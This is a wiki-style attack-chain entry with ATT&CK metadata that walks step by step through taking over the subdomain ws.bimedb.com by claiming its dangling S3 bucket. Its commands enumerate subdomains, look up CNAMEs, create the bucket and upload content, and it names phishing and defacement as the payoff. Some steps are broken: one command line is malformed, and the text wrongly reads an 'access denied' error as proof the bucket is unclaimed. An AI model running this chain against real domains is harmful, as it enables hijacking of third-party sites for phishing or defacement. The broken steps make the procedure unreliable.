

---
tags:
  - subdomain-takeover
  - aws-s3
  - dns
  - cloud
type: attack_chain
tools:
  - '[[tools/subfinder]]'
tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
  - AWS
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Enumerate-Subdomains-for-Takeover]]'
  - '[[procedures/Verify-and-Claim-Unclaimed-S3-Bucket]]'
step_count: 2
techniques:
  - '[[Active Scanning]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T05:32:23.805Z'
description: >-
  Attack chain demonstrating subdomain takeover by identifying and claiming an
  unclaimed AWS S3 bucket pointed to by a dangling DNS CNAME record.
skill_level: intermediate
impact_level: high
id: 83ad573d-75f0-438e-af80-3adda90cec98
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Active Scanning]]'
  - '[[Exploit Public-Facing Application]]'
---
# Subdomain Takeover via Unclaimed AWS S3 Bucket

Multi-stage attack chain demonstrating a complete subdomain takeover workflow targeting dangling DNS records pointing to unclaimed cloud resources.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/subfinder]]
- [[tools/dig]]
- AWS CLI (for bucket claiming)

### Target Environment

- Web platform with DNS records
- AWS cloud services (S3)
- No special ports required; DNS queries over port 53

### Initial Access Requirements

- Public DNS resolution access
- AWS account for claiming the bucket
- No prior credentials needed for enumeration

## Detailed Attack Procedures

### Step 1: Subdomain Enumeration
procedure: [[procedures/Enumerate-Subdomains-for-Takeover]]

**Objective**: Identify subdomains that may point to unclaimed cloud resources, such as AWS S3 buckets.

**Instructions**: Use [[commands/subfinder-enumerate]] to discover subdomains of the target domain:

```bash
subfinder -d bimedb.com -o subdomains.txt
```

Then, perform DNS lookups on discovered subdomains using [[commands/dig-cname-lookup]] to check for CNAME records pointing to cloud services:

```bash
dig ws.bimedb.com +short
```

**Expected Output**: List of subdomains and their CNAME targets, e.g., "ws.bimedb.com. 300 IN CNAME ws-bimedb-com.s3.amazonaws.com."

**Success Indicators**:
- Subdomains enumerated successfully
- CNAME pointing to AWS S3 endpoint identified

### Step 2: Verify and Claim Bucket
procedure: [[procedures/Verify-and-Claim-Unclaimed-S3-Bucket]]

**Objective**: Confirm the S3 bucket is unclaimed and take control by creating it under your AWS account.

**Instructions**: Check if the bucket exists and is unclaimed using [[commands/aws-s3-ls-check]] (requires AWS CLI configured with your credentials):

```bash
aws s3 ls s3://ws-bimedb-com --no-sign-request
```

If it returns an access denied or no such bucket error, the bucket is unclaimed. Claim it by creating a new bucket with the same name in your AWS account:

```bash
aws s3 mb s3://ws-bimedb-com
```

Upload a test file to verify control:

```bash
test.html > test.html
echo '<h1>Taken Over</h1>' > test.html
aws s3 cp test.html s3://ws-bimedb-com/
```

**Expected Output**: Bucket creation confirmation and successful file upload. Accessing http://ws.bimedb.com should now serve your content.

**Success Indicators**:
- Bucket claimed without errors
- Subdomain resolves to your hosted content

## Attack Chain Summary

### Key Achievements

1. Discovered vulnerable subdomain ws.bimedb.com pointing to unclaimed S3 bucket
2. Verified lack of ownership and claimed the bucket
3. Enabled potential phishing or defacement by hosting malicious content

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]] Active Scanning
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access

---
*Last updated: 2023-10-01T00:00:00Z*
